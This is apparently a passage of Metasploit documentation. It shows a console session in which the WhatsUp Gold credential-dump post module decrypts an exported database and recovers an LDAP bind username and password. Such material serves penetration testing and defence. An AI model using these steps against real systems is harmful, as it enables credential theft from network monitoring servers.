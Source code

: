The operator extracts the SQL data from the database into `/tmp/wug_dump.csv` out of band.

```
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > set CSV_FILE /tmp/wug_dump.csv
CSV_FILE => /tmp/wug_dump.csv
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > decrypt

[*] Hostname WINCEMEAT IPv4 192.168.101.144
[*] WhatsUp Gold Build 11.00.0004
[*] Init WhatsUp Gold crypto ...
[!] Could not extract dynamic encryption salt; type 3 ciphertext will not be decrypted
[*] Performing decryption of WhatsUp Gold SQL database
[+] 2 WUG rows loaded, 1 unique nCredentialTypeIDs
[*] Process WhatsUp Gold DB ...
[+] 2 WUG rows processed
[*] 2 rows recovered: 1 plaintext, 1 decrypted (0 blank)
[*] 2 rows written (0 blank rows withheld)
[+] 1 unique WUG nCredentialTypeID records recovered
[+] Recovered Credential: LDAP Bind
[+]     L: CESIUM137\ldap
[+]     P: WuddidUSay2Me?!
[+] Decrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221219112059_default_192.168.101.144_whatsup_gold_dec_615423.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) >
```
